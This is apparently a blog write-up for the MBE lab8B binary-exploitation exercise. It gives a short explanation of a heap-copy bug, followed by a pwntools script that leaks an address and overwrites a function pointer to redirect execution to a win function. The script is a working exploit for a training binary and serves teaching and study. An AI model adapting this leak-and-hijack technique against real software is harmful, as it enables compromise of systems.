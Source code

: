 ```yaml
---
layout: post
comments: true
title: MBE-lab8B
---
```



Bug is where it tries to copy the struct vector in v3 to the heap. It does
&v3's memory address + i where i is index. So if I create more than 1 fav,
I can control the printFunc() --> 7th vector is in my control.

```
#!/usr/bin/python
from pwn import *

sh1 = process("./lab8B")
print sh1.recv()
raw_input()

# Win address is randomised. We need a leak.
offset = 8281

# Secret = vector2_address - 8281

# Enter data in vector 1.
sh1.send("1\n")
sh1.send("1\n")
sh1.send("A\n")
sh1.send("1\n")
sh1.send("2\n")
sh1.send("3\n")
sh1.send("4\n")
sh1.send("5\n")

buff = "1"
sh1.send(buff)
sh1.send("\n")

sh1.send("7\n")
sh1.send("8\n")
print sh1.recv()

sh1.send("1\n")
sh1.send("2\n")
sh1.send("A\n")
sh1.send("1\n")
sh1.send("2\n")
sh1.send("3\n")
sh1.send("4\n")
sh1.send("5\n")

sh1.send("1\n")
sh1.send("7\n")
sh1.send("8\n")
print sh1.recv()

''' LEAK!!'''
sh1.send("3\n")
sh1.send("2\n")
b = sh1.recvuntil("void printFunc")
b = b.split()
leak = b[10]
leak = int(leak,16)
win = leak-8282

#Re enter data.
sh1.send("1\n")
sh1.send("1\n")
sh1.send("A\n")
sh1.send("1\n")
sh1.send("2\n")
sh1.send("3\n")
sh1.send("4\n")
sh1.send("5\n")

buff = str(win)
sh1.send(buff)
sh1.send("\n")

sh1.send("7\n")
sh1.send("8\n")

sh1.send("2\n")

i = 7
while i>0:
	sh1.send("4\n")
	i = i - 1

# Load favorite into vector 1.
sh1.send("6\n")
sh1.send("6\n")
sh1.send("1\n")

# Trigger vulnerability.
sh1.send("3\n")
sh1.send("1\n")

sh1.interactive()
```
